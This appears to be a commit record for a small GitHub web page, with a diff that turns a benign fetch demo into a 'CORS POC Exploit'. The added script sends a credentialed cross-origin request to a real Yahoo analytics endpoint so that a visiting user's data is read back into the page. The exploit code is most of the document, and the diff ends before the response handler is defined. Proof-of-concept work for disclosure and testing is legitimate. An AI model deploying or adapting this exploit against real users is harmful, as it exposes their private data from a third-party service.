

Before and after one commit to jareddarkweb/Corsyahoo, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Initial commit with CORS

```diff
--- a/index.html
+++ b/index.html
@@ -1,24 +1,22 @@
-<!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CORS Proof of Concept</title>
+   <body>
+      <center>
+      <h2>CORS POC Exploit </h2>
+      <h3>created by <a href="https://m.youtube.com/@albertacybersecurity716">@Jared-Calgary-Cyber-Security</a></h3>
+</body>
 </head>
-<body>
-    <h1>CORS Proof of Concept</h1>
-    <button id="fetchData">Fetch Data from External API</button>
-    <pre id="output"></pre>
+<center>
+<button onclick="exploitCORS()">Fetch from the target!</button>
+<hr size=1 width="80%">
+<textarea id="fetchedResource" rows="10" cols="50" style="width:75%" placeholder="Click on the button to fetch resource!"></textarea>
+</center>
 
-    <script>
-        document.getElementById('fetchData').addEventListener('click', () => {
-            fetch('https://jsonplaceholder.typicode.com/posts/1')
-                .then(response => response.json())
-                .then(data => {
-                    document.getElementById('output').textContent = JSON.stringify(data, null, 2);
-                })
-                .catch(error => console.error('Error fetching data:', error));
-        });
-    </script>
-</body>
-</html>
+<script>
+function exploitCORS(){
+    var req = new XMLHttpRequest();
+    req.onload = reqListener;
+    req.open('get','https://ups.analytics.yahoo.com/ups/58824/sync?format=json&gdpr=false&gdpr_consent=&gpp=DBAA&gpp_sid=-1&us_privacy=1---',true);
+    req.withCredentials = true;
+    req.send();
+}
```
